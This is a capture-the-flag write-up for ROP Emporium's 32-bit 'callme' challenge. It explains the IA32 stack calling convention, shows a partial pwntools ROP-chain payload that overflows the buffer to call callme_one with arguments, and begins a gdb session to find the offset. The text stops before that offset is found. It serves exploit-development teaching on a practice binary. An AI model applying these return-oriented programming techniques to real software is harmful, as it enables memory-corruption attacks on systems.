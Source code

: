 # CALLME (x86_32)

[callme](https://ropemporium.com/challenge/callme.html)

The 32-bit version of the `callme` challenge is quite similar to the 64-bit version. The key difference is how arguments are passed into functions.

In AMD64 Linux, the first 6 integer arguments are passed into registers while the rest are pushed onto the stack. This is not the case in IA32, where all arguments are pushed onto the stack. For example, the assembly snippet below calls `calloc()` with `4` as the first argument and `8` as the second argument.

```assembly
    push 0x8 ; second argument
    push 0x4 ; first argument
    call calloc@PLT
```

As you can see, the second argument is pushed before the first argument, which causes the memory address of the first argument to be lower on the stack.

| Address | Value | Remarks |
| - | - | - |
| 0xffffffa8 | 0x8 | Second argument |
| 0xffffffa4 | 0x4 | First argument |
| 0xffffffa0 | 0x400100 | Saved EIP |

Thus, to call `callme_one()`, your ROP chain should include something like this:

```python
from pwn import *
...
ARG0 = 0xdeadbeef
ARG1 = 0xcafebabe
ARG2 = 0xd00df00d
ARGS_COMBINED = p32(ARG0) + p32(ARG1) + p32(ARG2)

attack = ... # buffer garbage
attack += p32(exe.symbols["callme_one"]) # address of callme_one
attack += b"A"*4 # overwrite saved eip
attack += ARGS_COMBINED # arguments
io.sendline(attack)
...
```

Now that we have understood the IA32 calling convention, we must now calculate how many bytes we must write before we overwrite the saved `eip`.

```
$ gdb ./callme32
...
> disassemble pwnme
...
   0x08048732 <+69>:    push   0x0
   0x08048734 <+71>:    call   0x80484c0 <read@plt>
   0x08048739 <+76>:    add    esp,0x10
   0x0804873c <+79>:    sub    esp,0xc
...
> break *0x08048739
Breakpoint 1 at 0x8048739
> run
...
callme by ROP Emporium
x86
```
